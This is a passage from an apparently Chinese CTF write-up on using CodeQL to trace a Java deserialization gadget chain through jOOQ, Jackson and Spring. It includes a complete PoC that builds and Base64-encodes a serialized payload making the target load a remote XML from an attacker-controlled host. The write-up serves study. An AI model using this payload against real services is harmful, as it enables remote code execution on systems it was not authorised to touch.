

Sink2Source，继续找

AbstractDataType.convert()



AbstractDataType 没有 getType 方法。我们找一下它的继承关系。然后找到了DefaultDataType这个类的getType 方法。返回的是这个类的uType属性。然后这个object也就是我们上面说的那个from变量。需要是Object类，然后值为`http://127.0.0.1:7777/poc.xml`

  


Sink2Source，继续找

ConvertedVal.getValue()

然后这个 delegate.getValue() 是 `http://127.0.0.1:7777/poc.xml` 然后这个getDataType需要是DefaultDataType。我们这里初始化这个类用它的子类TableDataType。



### 构造

然后我们将codeql分析的这部分进行构造。

```
Class clazz1 = Class.forName("org.jooq.impl.Dual");
Constructor constructor1 = clazz1.getDeclaredConstructors()[0];
constructor1.setAccessible(true);
Object table = constructor1.newInstance();

Class clazz2 = Class.forName("org.jooq.impl.TableDataType");
Constructor constructor2 = clazz2.getDeclaredConstructors()[0];
constructor2.setAccessible(true);
Object tableDataType = constructor2.newInstance(table);

Class clazz3 = Class.forName("org.jooq.impl.Val");
Constructor constructor3 = clazz3.getDeclaredConstructor(Object.class, DataType.class, boolean.class);
constructor3.setAccessible(true);
Object val = constructor3.newInstance("whatever", tableDataType, false);

Class clazz4 = Class.forName("org.jooq.impl.ConvertedVal");
Constructor constructor4 = clazz4.getDeclaredConstructors()[0];
constructor4.setAccessible(true);
Object convertedVal = constructor4.newInstance(val, tableDataType);

Object value = "http://127.0.0.1:7777/poc.xml";
Class type = ClassPathXmlApplicationContext.class;

ReflectUtil.setFieldValue(val, "value", value);
ReflectUtil.setFieldValue(tableDataType, "uType", type);

Method m = convertedVal.getClass().getMethod("getValue");
m.setAccessible(true);
m.invoke(convertedVal);

```

最终的poc就如官方给的那样。

```
public class PocServer {

    public static void main(String[] args) throws Exception {
        gen("http://127.0.0.1:7777/poc.xml");
    }

    public static void gen(String url) throws Exception{
        Class clazz1 = Class.forName("org.jooq.impl.Dual");
        Constructor constructor1 = clazz1.getDeclaredConstructors()[0];
        constructor1.setAccessible(true);
        Object table = constructor1.newInstance();

        Class clazz2 = Class.forName("org.jooq.impl.TableDataType");
        Constructor constructor2 = clazz2.getDeclaredConstructors()[0];
        constructor2.setAccessible(true);
        Object tableDataType = constructor2.newInstance(table);

        Class clazz3 = Class.forName("org.jooq.impl.Val");
        Constructor constructor3 = clazz3.getDeclaredConstructor(Object.class, DataType.class, boolean.class);
        constructor3.setAccessible(true);
        Object val = constructor3.newInstance("whatever", tableDataType, false);

        Class clazz4 = Class.forName("org.jooq.impl.ConvertedVal");
        Constructor constructor4 = clazz4.getDeclaredConstructors()[0];
        constructor4.setAccessible(true);
        Object convertedVal = constructor4.newInstance(val, tableDataType);

        Object value = url;
        Class type = ClassPathXmlApplicationContext.class;

        ReflectUtil.setFieldValue(val, "value", value);
        ReflectUtil.setFieldValue(tableDataType, "uType", type);

        ClassPool classPool = ClassPool.getDefault();
        ClassPool.getDefault().appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
        CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(ctMethod);
        ctClass.toClass();

        POJONode pojoNode = new POJONode(convertedVal);

        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector vector = (Vector) ReflectUtil.getFieldValue(undoManager, "edits");
        vector.add(pojoNode);
        ReflectUtil.setFieldValue(eventListenerList, "listenerList", new Object[]{InternalError.class, undoManager});

        byte[] data = SerializeUtil.serialize(eventListenerList);

        System.out.println(Base64.getEncoder().encodeToString(data));

    }
}

```

# codeql database

hutool和jooq的数据库都是 通过github action 直接生成的。但是导入mac 的话是无法成功的，但是windows可以。

<https://www.cnblogs.com/kingbridge/articles/18100619>

jdk的数据库虽然题目是jdk17的，但是我用的是jdk8的数据库。这位作者已经弄好了，直接用即可。

<https://blog.csdn.net/mole_exp/article/details/122330521>

题目比较久远了，这里附上题目的附件。

<https://pan.baidu.com/s/1FnsS0vMr3mR93yL-rY3NaA?pwd=1234>

# 结语

其实这个算不上是污点追踪，因为每一个类的里面的每一个属性都是可以通过反射或者一些其它的方式来进行赋值的。和我的另一篇文章其实不太一样。<https://xz.aliyun.com/t/16468>

然后留个联系方式，希望能遇到一些志同道合的人。 3194164801@qq.com

参考

<https://xz.aliyun.com/t/14190>

<https://xz.aliyun.com/t/15487>

<https://xz.aliyun.com/t/14298>
